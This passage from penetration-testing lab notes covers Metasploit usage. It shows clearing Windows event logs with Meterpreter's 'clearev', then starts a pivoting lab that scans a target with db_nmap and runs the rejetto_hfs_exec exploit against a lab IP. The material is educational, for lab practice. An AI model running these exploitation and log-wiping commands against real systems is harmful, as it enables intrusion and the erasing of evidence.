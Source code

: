 ### Clearing Windows Event Logs

❗ *Elevated privileges are necessary to clean the Event logs.*

- From the `Meterpreter` session clear the event log

```bash
clearev
```

![](.gitbook/assets/image-20230419233932312.png)

> 📌 Exploit files or executables need to be cleaned too.

------

## Lab 10 - [Pivoting](https://www.offsec.com/metasploit-unleashed/pivoting/)

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Target 1 IP: `10.2.30.252`
> - Target 2 IP: `10.2.21.166`
> - **Pivoting** technique with a *network route* to the internal network's subnet

```bash
ping 10.2.30.252
    PING 10.2.30.252 (10.2.30.252) 56(84) bytes of data.
    64 bytes from 10.2.30.252: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.30.252: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.21.166
	PING 10.2.21.166 (10.2.21.166) 56(84) bytes of data.
# No response from target2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV 10.2.30.252
```

### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.30.252
run
```
